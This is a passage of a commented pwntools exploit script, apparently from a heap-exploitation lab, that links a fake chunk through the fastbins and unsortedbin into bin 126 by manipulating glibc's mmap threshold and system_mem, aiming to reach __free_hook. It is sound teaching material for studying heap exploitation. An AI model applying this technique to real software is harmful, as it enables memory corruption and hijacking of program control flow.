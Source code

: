 ```python
# Craft a fake chunk using the "age" field.
# Set its prev_inuse flag to avoid backward consolidation.
# This fake chunk has a size of 0, so it acts as its own forward consolidation guard.
age = 1;

io.sendafter(b"age: ", f"{age}".encode())
io.recvuntil(b"> ")


# =-=-=- INCREASE MMAP THRESHOLD -=-=-=

# Before we can increase the main arena's system_mem value, we must increase the mmap_threshold.
# We do this by requesting then freeing a chunk with size beyond the mmap threshold.
mem = malloc(0x5fff8, b"Y"*8) # Allocated via mmap().
free(mem) # Freeing an mmapped chunk increases the mmap threshold to its size.


# =-=-=- INCREASE SYSTEM_MEM -=-=-=

# Now that the mmap threshold is beyond 0x60000, requesting chunks of that size will allocate them
# from a heap, rather than via mmap().
# This in turn will increase the total memory checked out from the kernel, which is tracked by
# an arena's system_mem field.
mem = malloc(0x5fff8, b"Z"*8)


# =-=-=- LINK FAKE CHUNK INTO A FASTBIN -=-=-=

# Leverage a fastbin dup to link the fake "age" chunk into the 0x20 fastbin.
dup = malloc(0x18, b"A"*8)
safety = malloc(0x18, b"B"*8)

free(dup)
free(safety)
free(dup)

malloc(0x18, pack(elf.sym.user)) # Address of fake chunk.


# =-=-=- CONSOLIDATE FAKE CHUNK INTO UNSORTEDBIN -=-=-=

# Trigger malloc_consolidate() to move the fake chunk from the fastbins into the unsortedbin.
# Use a consolidation with the top chunk to achieve this.
consolidate = malloc(0x88, b"C"*8)
free(consolidate)


# =-=-=- SORT FAKE CHUNK INTO BIN 126 -=-=-=

# Sort the fake chunk into bin 126 by setting its size to the minimum required to qualify for it,
# then requesting a chunk larger than the fake chunk.
# This part is where the unsortedbin size sanity check would catch us if we hadn't increased system_mem.
amend_age(0x80001)
malloc(0x80008, b"D"*8)

# Increase the fake chunk size so that it can reach the free hook.
# Making this value too large will fail the size sanity check during unsortedbin allocation
# of the following chunk. It can also trigger segfaults or busfaults when the remaindering code
# attempts to update the prev_size field of the succeeding chunk.
distance = (libc.sym.__free_hook - 0x20) - elf.sym.user
amend_age(distance + 0x29)

```